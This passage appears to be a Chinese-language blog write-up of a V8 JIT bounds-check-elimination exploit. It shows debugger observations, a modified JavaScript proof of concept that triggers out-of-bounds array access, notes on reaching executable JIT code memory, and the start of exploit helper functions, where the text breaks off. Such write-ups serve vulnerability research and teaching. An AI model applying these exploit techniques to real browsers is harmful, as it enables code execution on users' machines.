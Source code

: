 重新运行并两次`continue`后，查看`index_type->Min()`,`index_type->Max()`,`length_type->Min()`和`length_type->Max()`的值

![image-20220212152502325](https://s2.loli.net/2022/02/12/9CHNAMyuzLkGvl2.png)

可以看到`length_type->Min()`和`length_type->Max()`分别为0x0和0x3fffffe，即poc中数组arr的length字段为range(0,0x3fffffe)，但是正确的length应该是range(4,4)

于是修改一下poc，去掉函数f外的arr数组的声明，改为在函数中声明

```javascript
//var arr = [1.1, 2.2, 3.3, 4.4];//
function f(x)
{   var arr = [1.1, 2.2, 3.3, 4.4];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;
    t -= 9007199254740989;  
    t -= 1;                 
    t *= 2;                 
    t -= 1;                 
    //arr[t] = 1.0864618449742194e-311;	//int2float(0x200);
    console.log('arr[t]:',arr[t]);
}
f(1);
%OptimizeFunctionOnNextCall(f);
f(1);
%SystemBreak();
```

此时`length_type->Min()`和`length_type->Max()`都变为正常，CheckBounds也优化掉了

![image-20220212153221862](https://s2.loli.net/2022/02/12/AusRyO4t7GIEqdg.png)

![image-20220212153407588](https://s2.loli.net/2022/02/12/rmEnXvZJ8OLqF2j.png)



接下来就是和之前类似的利用方法了

**与之前exp不同的几个地方**

1. `arr`数组在函数内部声明，在函数外无法直接调用，所以使用renturn返回arr数组
2. 因为该版本不支持BigUint64Array，所以改用Uint32Array，格式转换感觉会麻烦些
3. WebAssembly的rwx_page_addr不在wasmintance地址下方，改用`jit_func`，获取到的`code_addr`加上`0x60`才是`jit_func`开始执行的地方
4. `addressOf`原语中使用到的`obj_arr`如果采用之前的声明方式（即四个数组元素都是`flaot_arr`），此时使用`addressOf`原语获取`big_jit_func`地址，v8会为`obj_arr`重新创建一个数组，原来的`obj_arr`数组就无法利用。所以在声明`obj_arr`时就把四个数组元素都设置成`big_jit_func`，这样v8就不会重新创建数组

```javascript
var buf = new ArrayBuffer(16);
var float64 = new Float64Array(buf);
//var bigUint64 = new BigUint64Array(buf);
var Uint32 = new Uint32Array(buf);
function hex(i){
    return '0x' + i[1].toString(16).padStart(8, '0') +  i[0].toString(16).padStart(8, '0');
}

function f2i(f)
{
    float64[0] = f;
    return [Uint32[0], Uint32[1]];
}

function i2f(i)
{   
    Uint32[0] = i[0];
    Uint32[1] = i[1];
    return float64[0];
```